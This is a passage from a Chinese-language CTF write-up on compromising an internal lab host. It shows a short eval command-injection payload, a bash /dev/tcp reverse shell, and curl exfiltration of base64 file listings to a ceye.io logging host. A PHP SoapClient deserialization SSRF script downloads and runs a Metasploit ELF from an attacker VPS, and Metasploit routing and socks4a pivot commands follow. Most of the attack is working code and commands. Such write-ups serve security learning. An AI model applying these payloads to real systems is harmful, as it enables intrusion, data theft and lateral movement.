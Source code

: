 #### 内网机1（10.10.1.12）

限制6个字符的eval，我卡在这边好久，后来自己琢磨出这个巧妙的（自认为）payload，不知道师傅们是怎么解的

```
index.php?cc=`$cc`;whoami
```

因为没有回显所以首选反弹shell，其次是curl外带数据或者dnslog，后面我尝试过`bash -i >& /dev/tcp/ip/port 0>&1`但是没有成功，然后就curl外带数据。

```
index.php?cc=`$cc`;curl http://BuGaoSuNi.ceye.io/`ls|base64|cut -c 1-10`
index.php?cc=`$cc`;curl http://BuGaoSuNi.ceye.io/`ls|base64|cut -c 11-20`
...
```

payload构造好之后利用反序列化配合soap达到ssrf的效果，后面打到10.10.1.12拿到/hint

``````
your next target is in 10.10.2.13:8080
enjoy it!
``````

还要打内网，那就上msf生成elf马，上传至vps，用下面的payload构造cookie，触发meterpreter shell（我是用frp做的内网穿透，所以地址会是127.0.0.1）

```php
<?php
error_reporting(0);
$a = new SoapClient(null, array('location' => 'http://10.10.1.12/index.php?cc=`$cc`;curl http://MyVPSIp/frieggs.elf>/tmp/frieggs.elf%26%26chmod 777 /tmp/frieggs.elf%26%26/tmp/frieggs.elf',
    'uri'      => "123"));
$s = serialize($a);
$cipher = openssl_encrypt($s, "des-cbc", null, 0, null);
$uid = openssl_decrypt($cipher, 'des-cbc', null, 0, null);
$hash = md5($uid);
echo 'user='.base64_encode($cipher).'; hash='.$hash;
```

![image-20200309050615304](image-20200309050615304.png)

![image-20200309050713713](image-20200309050713713.png)

```shell
#将session切换至后台
$ meterpreter > bg
#添加一条内网路由
$ msf5 exploit(multi/handler) > route add 10.10.0.0 255.255.0.0 6
#创建msf sock4a代理
$ msf5 exploit(multi/handler) > use auxiliary/server/socks4a
$ msf5 auxiliary(server/socks4a) > run
[*] Auxiliary module running as background job 5.

[*] Starting the socks4a proxy server
```
